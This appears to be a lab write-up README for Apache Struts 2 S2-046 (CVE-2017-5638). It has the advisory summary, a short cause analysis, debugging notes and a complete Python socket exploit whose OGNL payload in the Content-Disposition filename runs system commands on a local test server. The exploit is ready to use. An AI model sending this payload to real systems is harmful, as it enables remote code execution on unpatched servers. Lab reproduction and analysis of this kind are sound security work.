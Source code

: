 # S2-046 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software       | Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10     |
| Reporter                | Chris Frohoff <cfrohoff at qualcomm dot com>, Nike Zheng <nike dot zheng at dbappsecurity dot com dot cn>, Alvaro Munoz <alvaro dot munoz at hpe dot com> |
| CVE Identifier          | CVE-2017-5638                                                |

## Problem

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Disposition的filename来触发该漏洞，进而执行系统命令。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![{F77DE265-A68E-4CB6-9819-2A14C06C1F2A}_20200727162951]({F77DE265-A68E-4CB6-9819-2A14C06C1F2A}_20200727162951.jpg)

Python exp（因为要发送畸形数据包，所以使用原生socket编写payload，见参考链接2）: 

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST /s2_046_war_exploded/Upload.action HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('localhost', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

## Debug

具体分析可参考：[【漏洞分析】Struts2 S2-046 漏洞原理分析](https://www.anquanke.com/post/id/85776)。在这里只记录一下调试入口以及大致原理。

Content-Disposition中的Filename参数存在空字节，在检查时会抛出异常，会进入buildErrorMessage()方法。

在buildErrorMessage()方法处下断点，运行exp触发断点。

`s2-046/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/multipart/JakartaMultiPartRequest.class:91`

![{D37502F2-3FD8-4046-8297-A5ED2E8FDE61}_20200727164242]({D37502F2-3FD8-4046-8297-A5ED2E8FDE61}_20200727164242.jpg)

## Reference

- [S2-046](https://cwiki.apache.org/confluence/display/WW/S2-046)
- [S2-046 远程代码执行漏洞（CVE-2017-5638）](https://github.com/vulhub/vulhub/blob/master/struts2/s2-046/README.zh-cn.md)
- [【漏洞分析】Struts2 S2-046 漏洞原理分析](https://www.anquanke.com/post/id/85776)

